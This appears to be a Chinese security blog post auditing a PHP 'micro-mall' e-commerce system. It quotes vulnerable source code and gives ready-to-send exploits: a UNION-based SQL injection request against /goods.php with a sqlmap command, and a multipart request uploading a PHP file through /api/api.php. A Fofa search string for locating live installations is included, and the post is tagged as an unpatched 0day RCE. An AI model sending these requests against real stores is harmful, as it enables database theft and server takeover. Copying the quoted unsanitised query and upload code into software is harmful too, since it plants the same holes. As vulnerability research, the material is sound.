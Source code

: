 #  某微商城系统RCE漏洞审计   
Mstir  实战安全研究   2024-08-18 12:01  
  
## 0x00 前言  
  
   **微商城系统有优选，超值捡漏功能，人气销量，以及商家推荐功能，还有订单查询，智能客服等功能.**  
```
Fofa:"/Mao_Public/js/jquery-2.1.1.min.js"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cgSXTpNVEnBMtTmt2d034LicRRsbWUuGibbKQnqkfyYZ3c6pg9gpWic36bvibYQo39UWUF3AtFAoCA7A/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cgSXTpNVEnBMtTmt2d034LfKbz19XjgFiawAVm8l6nQ4wWMmXdXVsDOMFUhK1Rt3ZFSx6D55j5McA/640?wx_fmt=png&from=appmsg "")  
## 0x01 前台SQL注入漏洞  
  
**位于 /goods.php 存在很明显的SQL注入漏洞，直接GET传入id参数，然后直接被带入到了查询之中.**  
```
<?php
require './Mao/common.php';
$id= isset($_GET['id']) ? $_GET['id'] : 0;
$cha_1 = $DB->get_row("select * from mao_shop where M_id='{$mao['id']}' and id='{$id}' limit 1");
if($cha_1['type'] == 1){
    $bt = "天猫优选";
}elseif ($cha_1['type'] == 2){
    $bt = "超值捡漏";
}elseif ($cha_1['type'] == 3){
    $bt = "人气销量";
}
if(!$cha_1){
    sysmsg("商品不存在！");
}
?>
```  
  
**Payload:**  
```
GET /goods.php?id='+UNION+ALL+SELECT+NULL,NULL,NULL,CONCAT(IFNULL(CAST(CURRENT_USER()+AS+NCHAR),0x20)),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+- HTTP/1.1
Cache-Control: no-cache
Cookie: PHPSESSID=2t6mrecrn4kesrguck8o1c1ohp
Host: 127.0.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```  
  
****  
**Python sqlmap.py -u "http://127.0.0.1/goods.php?id=*" --level=3 --dbms=mysql**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cgSXTpNVEnBMtTmt2d034LqF03CEJXCbXnngrHCow6YJhER9Ucp8QpLKoJM6MApxBYEVWiapjibceA/640?wx_fmt=other&from=appmsg "")  
## 0x02 前台任意文件上传漏洞  
  
**位于 /api/api.php 存在一段很明显的任意文件上传漏洞，直接构造mod=upload&type=1即可上传任意文件**  
```
elseif($mod == "upload"){
  $type = daddslashes($_REQUEST['type']);
if($type == 1){
  if ((($_FILES["file"]["type"] == "image/gif") || ($_FILES["file"]["type"] == "image/jpeg") || ($_FILES["file"]["type"] == "image/png") || ($_FILES["file"]["type"] == "image/pjpeg")) && ($_FILES["file"]["size"] < 5242880)){
    if ($_FILES["file"]["error"] > 0){
      $result=array("code"=>-2,"msg"=>"上传出错！");
      exit(json_encode($result));
    }else{
      $cmm = date("YmdHis").rand(111,999);
      $name = explode('.',$_FILES["file"]["name"]);
      $newPath = $cmm.'.'.$name[1];
      if (preg_match("/[\x7f-\xff]/", $newPath)) {
        $result=array("code"=>-3,"msg"=>"文件名称不能为中文！");
        exit(json_encode($result));
      }
      if (file_exists("../upload/" . $newPath)){
        $result=array("code"=>-2,"msg"=>"上传出错！");
        exit(json_encode($result));
      }else{
        move_uploaded_file($_FILES["file"]["tmp_name"],"../upload/" . $newPath);
        $lj=array("src"=>"/upload/{$newPath}","title"=>"图片");
        $result=array("code"=>0,"msg"=>"上传成功！","data"=>$lj,"name"=>"/upload/{$newPath}");
        exit(json_encode($result));
      }
    }
  }else{
    $result=array("code"=>-3,"msg"=>"图片大小不能超过5M！{$_FILES["file"]["size"]}");
    exit(json_encode($result));
  }
}
else{
  $result=array("code"=>-1,"msg"=>"上传类型不存在！");
}
exit(json_encode($result));
}//图片上传接口
```  
Payload:```
POST /api/api.php?mod=upload&type=1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 196
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTqkdY1lCvbvpmown
Cookie: _ga=GA1.1.726509027.1723706258; _gid=GA1.1.511565798.1723706258; visiter_id=66becd1deegc38y28e1; cid=; services=1; itime=; service_token=fd70IOTMA6uf9x5ik%252FK%252Bp4E8K3BoyjlZd1eqHSIuOVum9qwpawRVCPE; think_lang=zh-cn; PHPSESSID=8954e10b597781256b751d2e72305b76
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/api/api.php?mod=upload&type=1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
sec-ch-ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundaryaKljzbg49Mq4ggLz
Content-Disposition: form-data; name="file"; filename="a.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryaKljzbg49Mq4ggLz--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cgSXTpNVEnBMtTmt2d034LzR4DmoyoS8X2IXibmLWUjZiap9TqV2VewpGpkLgnFcCibu1AAHh24Ta7g/640?wx_fmt=other&from=appmsg "")  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转，RCE**  
  
**微商城源码关注公众号发送 wst 获取**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
